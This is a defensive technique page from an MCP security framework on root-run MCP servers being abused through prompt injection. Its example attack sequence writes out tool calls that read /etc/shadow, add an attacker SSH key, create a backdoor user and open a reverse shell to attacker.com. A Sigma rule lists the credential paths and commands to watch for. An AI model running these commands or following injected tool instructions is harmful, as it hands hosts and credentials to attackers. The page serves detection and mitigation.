

# SAFE-T1305: Host OS Privilege Escalation (RCE)

## Overview
**Tactic**: Privilege Escalation (ATK-TA0004)  
**Technique ID**: SAFE-T1305  
**Severity**: Critical  
**First Observed**: Not observed in production (Theoretical)  
**Last Updated**: 2025-12-09

## Description
Host OS Privilege Escalation via Remote Code Execution (RCE) occurs when MCP servers are deployed running as the root user (UID 0) on the host operating system. This misconfiguration allows adversaries who gain code execution through MCP tool abuse to immediately operate with full system privileges, enabling complete host compromise without requiring traditional privilege escalation exploits.

This technique exploits a common deployment anti-pattern where developers or operators run MCP server processes as root for convenience, bypassing container isolation, or due to misconfigured service managers. When combined with prompt injection or malicious tool invocation, an attacker can execute arbitrary commands with root privileges, read sensitive files like `/etc/shadow`, install persistent backdoors, or pivot to other systems on the network.

## Attack Vectors
- **Primary Vector**: Prompt injection leading to command execution on root-privileged MCP server process
- **Secondary Vectors**: 
  - File tool abuse to read/write privileged system files
  - Docker socket access abuse (when MCP runs with `/var/run/docker.sock` mounted)
  - Exploitation of command execution tools (shell, exec) running as root
  - Environment variable leakage exposing root credentials
  - Cron job manipulation via file write tools

## Technical Details

### Prerequisites
- MCP server process running with EUID=0 (root) or equivalent privileged user
- Available tools that can execute commands, read/write files, or interact with system resources
- Network or local access to the MCP server (direct or via AI agent)
- Successful prompt injection or malicious tool invocation capability

### Attack Flow



1. **Initial Access**: Attacker gains access to the MCP client (via prompt injection, malicious server, or direct access)
2. **Discovery**: Attacker probes the execution context using command tools (`id`, `whoami`, `cat /proc/self/status`)
3. **Privilege Confirmation**: Discovery reveals `uid=0(root)` indicating root-level access
4. **Exploitation**: Attacker leverages root access for various malicious activities
5. **Post-Exploitation**: Installation of persistence mechanisms, lateral movement, or data exfiltration

### Example Scenario

**Vulnerable MCP Server Configuration:**
```json
{
  "name": "devops-assistant",
  "description": "DevOps automation helper with shell access",
  "tools": [
    {
      "name": "execute_command",
      "description": "Execute shell commands for automation tasks",
      "inputSchema": {
        "type": "object",
        "properties": {
          "command": {
            "type": "string",
            "description": "Shell command to execute"
          }
        },
        "required": ["command"]
      }
    },
    {
      "name": "read_file",
      "description": "Read file contents",
      "inputSchema": {
        "type": "object",
        "properties": {
          "path": {
            "type": "string",
            "description": "File path to read"
          }
        },
        "required": ["path"]
      }
    }
  ]
}
```

**Attack Sequence:**
```bash
# Step 1: Discovery - Check current privileges
execute_command({"command": "id"})
# Output: uid=0(root) gid=0(root) groups=0(root)

# Step 2: Confirm root access
execute_command({"command": "cat /etc/shadow | head -5"})
# Output: root:$6$...:19234:0:99999:7:::

# Step 3: Install persistence - Add SSH key
execute_command({"command": "echo 'ssh-rsa AAAA..attacker-key...' >> /root/.ssh/authorized_keys"})

# Step 4: Create backdoor user
execute_command({"command": "useradd -m -s /bin/bash -G sudo backdoor && echo 'backdoor:password123' | chpasswd"})

# Step 5: Establish reverse shell
execute_command({"command": "bash -c 'bash -i >& /dev/tcp/attacker.com/4444 0>&1 &'"})
```

### Advanced Attack Techniques (2024-2025 Research)

According to research on container and MCP security, sophisticated attackers employ several advanced techniques:

1. **Docker Socket Abuse**: When MCP servers have access to `/var/run/docker.sock`, attackers can spawn privileged containers to escape any containerization ([Docker Security Best Practices](https://docs.docker.com/develop/security-best-practices/))

2. **Capability Exploitation**: Even non-root processes with dangerous Linux capabilities (CAP_SYS_ADMIN, CAP_NET_ADMIN) can achieve privilege escalation ([Linux Capabilities Man Page](https://man7.org/linux/man-pages/man7/capabilities.7.html))

3. **Namespace Escape**: Misconfigured user namespaces or missing namespace isolation allows container escape to host root ([MITRE T1611 - Escape to Host](https://attack.mitre.org/techniques/T1611/))

## Impact Assessment
- **Confidentiality**: Critical - Full access to all files, credentials, and secrets on the host system
- **Integrity**: Critical - Ability to modify any system file, install rootkits, or alter configurations
- **Availability**: Critical - Can destroy data, disable services, or render systems inoperable
- **Scope**: Network-wide - Compromised host can be used to pivot to other systems

### Current Status (2025)
Security researchers are increasingly highlighting the risks of running MCP servers as root:
- Container orchestration platforms (Kubernetes, Docker Swarm) now enforce `runAsNonRoot` security contexts
- Cloud providers recommend and often enforce non-root container deployments
- The MCP specification does not mandate privilege restrictions, leaving it to implementers

Many MCP deployments, particularly in development and quick-start scenarios, still run as root for convenience, making them vulnerable to this technique.

## Detection Methods

### Indicators of Compromise (IoCs)
- MCP server processes running with UID 0 (`ps aux | grep mcp`)
- Tool calls returning `uid=0(root)` or similar privilege indicators
- Access to sensitive system files (`/etc/shadow`, `/etc/sudoers`, `/root/`)
- Unexpected process spawning from MCP server with root privileges
- SSH key additions to `/root/.ssh/authorized_keys`
- New user creation events from MCP server context
- Outbound connections from MCP server to unknown hosts

### Detection Rules

**Important**: The following rule is written in Sigma format and contains example patterns only. Organizations should:
- Monitor process execution contexts for root-level MCP servers
- Implement file integrity monitoring for sensitive system files
- Use behavioral analysis to detect privilege escalation patterns
- Deploy endpoint detection and response (EDR) solutions

```yaml
# EXAMPLE SIGMA RULE - Not comprehensive
title: MCP Server Root Privilege Abuse Detection
id: 942bded6-c291-4f07-bf3c-2a8932c4ec6f
status: experimental
description: Detects MCP tool execution running as root accessing sensitive system resources
author: Vikranth Kumar Shivaa
date: 2025-12-09
references:
  - https://github.com/safe-mcp/techniques/SAFE-T1305
  - https://attack.mitre.org/techniques/T1068/
  - https://attack.mitre.org/techniques/T1611/
logsource:
  product: mcp
  service: tool_execution
detection:
  selection_root_context:
    user_context|contains:
      - 'root'
      - 'uid=0'
      - 'euid=0'
  selection_privileged_commands:
    tool_name|contains:
      - 'execute_command'
      - 'run_shell'
      - 'exec'
      - 'shell'
    parameters.command|contains:
      - '/etc/shadow'
      - '/etc/sudoers'
      - 'authorized_keys'
      - 'useradd'
      - 'passwd'
      - 'chpasswd'
      - '/var/run/docker.sock'
      - 'chmod +s'
      - 'setuid'
  selection_file_access:
    tool_name|contains:
      - 'read_file'
      - 'write_file'
      - 'file_manager'
    parameters.path|contains:
      - '/etc/shadow'
      - '/etc/passwd'
      - '/etc/sudoers'
      - '/root/'
      - '/.ssh/'
  selection_discovery:
    tool_name|contains:
      - 'execute_command'
      - 'run_shell'
    parameters.command|contains:
      - 'id'
      - 'whoami'
      - 'cat /proc/self/status'
    tool_result|contains:
      - 'uid=0'
      - 'root'
  condition: selection_root_context and (selection_privileged_commands or selection_file_access or selection_discovery)
falsepositives:
  - Legitimate system administration tasks via MCP
  - Authorized security scanning and auditing
  - Container initialization scripts running as root temporarily
  - Development environments with intentional root access
level: critical
tags:
  - attack.privilege_escalation
  - attack.t1068
  - attack.t1611
  - safe.t1305
  - mcp.root_abuse
  - mcp.rce
fields:
  - tool_name
  - user_context
  - parameters.command
  - parameters.path
  - tool_result
  - server_id
  - timestamp
```

### Behavioral Indicators
- MCP server process tree showing root ownership
- Rapid succession of privilege discovery commands followed by exploitation
- File access patterns targeting system credentials and configuration
- Process spawning patterns consistent with reverse shell establishment
- Network connections from MCP context to external hosts on suspicious ports
- User account modifications initiated from MCP server context

## Mitigation Strategies

### Preventive Controls
1. **[SAFE-M-8: Principle of Least Privilege](../../mitigations/SAFE-M-8/README.md)**: Run MCP servers as non-root users with minimal required permissions
2. **[SAFE-M-9: Container Security Contexts](../../mitigations/SAFE-M-9/README.md)**: Enforce `runAsNonRoot: true` and `allowPrivilegeEscalation: false` in Kubernetes/container deployments
3. **[SAFE-M-10: Capability Dropping](../../mitigations/SAFE-M-10/README.md)**: Drop all unnecessary Linux capabilities using `--cap-drop=ALL` and add only required ones
4. **[SAFE-M-11: Read-Only Root Filesystem](../../mitigations/SAFE-M-11/README.md)**: Deploy with `readOnlyRootFilesystem: true` to prevent filesystem modifications
5. **[SAFE-M-12: User Namespace Isolation](../../mitigations/SAFE-M-12/README.md)**: Use user namespaces to map container root to unprivileged host user
6. **[SAFE-M-13: Seccomp Profiles](../../mitigations/SAFE-M-13/README.md)**: Apply restrictive seccomp profiles to limit available syscalls
7. **[SAFE-M-14: AppArmor/SELinux Policies](../../mitigations/SAFE-M-14/README.md)**: Enforce mandatory access controls to restrict file and network access

### Detective Controls
1. **[SAFE-M-15: Process Monitoring](../../mitigations/SAFE-M-15/README.md)**: Monitor MCP server process execution context and child processes
2. **[SAFE-M-16: File Integrity Monitoring](../../mitigations/SAFE-M-16/README.md)**: Deploy FIM on sensitive system files to detect unauthorized access
3. **[SAFE-M-17: Audit Logging](../../mitigations/SAFE-M-17/README.md)**: Enable comprehensive audit logging for privileged operations
4. **[SAFE-M-18: Runtime Security](../../mitigations/SAFE-M-18/README.md)**: Use runtime security tools (Falco, Sysdig) to detect anomalous behavior

### Response Procedures
1. **Immediate Actions**:
   - Isolate the affected MCP server from network access
   - Terminate the MCP server process
   - Capture forensic data (memory dump, process tree, open files)
   - Block any identified attacker IP addresses
2. **Investigation Steps**:
   - Review MCP server logs for suspicious tool invocations
   - Analyze process execution history for privilege escalation attempts
   - Check for persistence mechanisms (cron jobs, SSH keys, new users)
   - Examine network connections for data exfiltration or C2 traffic
3. **Remediation**:
   - Rebuild affected host from clean image
   - Rotate all credentials that may have been exposed
   - Reconfigure MCP server to run as non-root user
   - Implement additional security controls before redeployment
   - Update deployment templates and documentation

## Related Techniques
- [SAFE-T1104](../SAFE-T1104/README.md): Over-Privileged Tool Abuse - Broader category of privilege abuse
- [SAFE-T1301](../SAFE-T1301/README.md): Cross-Server Tool Shadowing - Can be combined for privilege escalation
- [SAFE-T1303](../SAFE-T1303/README.md): Sandbox Escape via Server Exec - Container breakout techniques
- [SAFE-T1102](../SAFE-T1102/README.md): Prompt Injection - Primary vector for initiating this attack

## References
- [Model Context Protocol Specification](https://modelcontextprotocol.io/specification)
- [OWASP Top 10 for LLM Applications](https://owasp.org/www-project-top-10-for-large-language-model-applications/)
- [Docker Security Best Practices](https://docs.docker.com/develop/security-best-practices/)
- [Kubernetes Security Context Documentation](https://kubernetes.io/docs/tasks/configure-pod-container/security-context/)
- [Linux Capabilities Man Page](https://man7.org/linux/man-pages/man7/capabilities.7.html)
- [CIS Docker Benchmark](https://www.cisecurity.org/benchmark/docker)
- [NIST SP 800-190 - Application Container Security Guide](https://csrc.nist.gov/publications/detail/sp/800-190/final)

## MITRE ATT&CK Mapping
- [T1068 - Exploitation for Privilege Escalation](https://attack.mitre.org/techniques/T1068/)
- [T1611 - Escape to Host](https://attack.mitre.org/techniques/T1611/)
- [T1548 - Abuse Elevation Control Mechanism](https://attack.mitre.org/techniques/T1548/)

## Version History
| Version | Date | Changes | Author |
|---------|------|---------|--------|
| 1.0 | 2025-12-09 | Initial documentation | Vikranth Kumar Shivaa |

